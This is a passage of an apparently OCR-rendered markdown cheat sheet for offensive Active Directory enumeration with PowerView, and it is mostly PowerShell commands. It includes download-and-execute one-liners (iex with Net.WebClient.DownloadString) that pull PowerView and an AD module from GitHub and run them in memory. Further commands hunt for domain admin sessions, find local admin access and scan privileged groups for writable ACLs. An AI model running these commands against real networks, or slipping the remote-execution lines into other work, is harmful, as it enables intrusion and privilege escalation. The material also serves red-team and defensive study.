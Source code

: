 ```powershell

# PowerView Module
iex (new-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1');New-InMemoryModule
```
##  3. <a name='PRE-REQUISITE:ADWebServicesontheDC'></a>PRE-REQUISITE: AD Web Services on the DC

On the error below when loading the AD module, ADWS must be reachable and running:
- TCP port 9389 reachable from your endpoint (and listening on the DC) : ```Test-NetConnection DC01 -port 9389```
- Restart the service on the DC : ```Restart-Service –name ADWS –verbose```

```
PS > iex (new-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/ADModule/master/Import-ActiveDirectory.ps1');Import-ActiveDirectory

AVERTISSEMENT : Error initializing default drive: 'Unable to find a default server with Active Directory Web Services running.'.
```
For more info, read the article from [theitbros.om](
https://theitbros.com/unable-to-find-a-default-server-with-active-directory-web-services-running/).

##  4. <a name='ENUM:DOMAINADMIN'></a>ENUM: DOMAIN ADMIN
```powershell
# PowerView: find where DA has logged on / and current user has access
Invoke-UserHunter
Invoke-UserHunter -CheckAccess
Invoke-UserHunter -CheckAccess | select username, computername, IPAddress

# get all the effective members of DA groups, 'recursing down'
Get-DomainGroupMember -Identity "Domain Computers" -Recurse | select membername, membersid
Get-DomainGroupMember -Identity "Domain Admins" -Recurse | select membername, membersid
Get-DomainGroupMember -Identity "Enterprise Admins" -Recurse -Domain <Forest> | select membername, membersid
```

##  5. <a name='ENUM:PRIVILEGEDUSERS'></a>ENUM: PRIVILEGED USERS

- [Well-known Microsoft SID List](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dtyp/81d92bba-d22b-4a8c-908a-554ab29148ab?redirectedfrom=MSDN)

```powershell
# PowerView: find computers where the current user is local admin
Find-LocalAdminAccess

#  PowerView: find local admins on all computers of the domain
Invoke-EnumerateLocalAdmin | select computername, membername

# PowerView: gather info on security groups
Get-ObjectAcl -SamAccountName "Domain Computers" -ResolveGUIDs -Verbose | ? { ($_.SecurityIdentifier -match '^S-1-5-.*-[1-9]\d{3,}$') -and ($_.ActiveDirectoryRights -match 'WriteProperty|GenericAll|GenericWrite|WriteDacl|WriteOwner')}
Get-ObjectAcl -SamAccountName "Domain Admins" -ResolveGUIDs -Verbose| ? { ($_.SecurityIdentifier -match '^S-1-5-.*-[1-9]\d{3,}$') -and ($_.ActiveDirectoryRights -match 'WriteProperty|GenericAll|GenericWrite|WriteDacl|WriteOwner')}
Get-DomainGroupMember -Identity "Backup Operators" -Recurse
Get-NetGroupMember -GroupName RDPUsers
Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentityReference -match "RDPUsers"} 

#  PowerView: get actively logged users on a computer
Get-NetLoggedon -ComputerName <Computer>
```